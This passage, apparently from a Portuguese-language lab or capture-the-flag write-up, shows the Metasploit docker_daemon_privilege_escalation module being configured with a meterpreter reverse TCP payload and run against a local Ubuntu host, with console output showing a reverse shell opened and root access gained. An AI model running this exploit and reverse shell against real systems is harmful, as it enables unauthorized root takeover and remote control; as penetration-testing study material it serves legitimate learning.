 **Configuração do Módulo**
Foi utilizado o módulo `exploit/linux/local/docker_daemon_privilege_escalation`, que permite a execução de um contêiner privilegiado e, consequentemente, a obtenção de acesso root no sistema:


```console
Module options (exploit/linux/local/docker_daemon_privilege_escalation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port

```
**Execução do Exploit**

O exploit foi executado para iniciar um contêiner Docker privilegiado e fornecer acesso como root:

```console
sf6 exploit(linux/local/docker_daemon_privilege_escalation) > run
[*] Started reverse TCP handler on 192.168.0.156:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Docker daemon is accessible.
[+] The target is vulnerable.
[*] Writing payload executable to '/tmp/vfmAjYnRWU'
[*] Executing script to create and run docker container
[*] Sending stage (3045380 bytes) to 192.168.0.207
[+] Deleted /tmp/vfmAjYnRWU
[*] Meterpreter session 3 opened (192.168.0.156:5555 -> 192.168.0.207:59030) at 2025-03-07 12:48:27 -0500
[*] Waiting 60s for payload

meterpreter > sysinfo
Computer     : 192.168.0.207
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root

meterpreter > shell
Process 3518 created.
Channel 1 created.

id
uid=1121(boba_fett) gid=100(users) euid=0(root) groups=0(root),100(users),999(docker)
groups
users docker
```
A exploração foi bem-sucedida, e um novo Meterpreter com privilégios de `root` foi obtido.
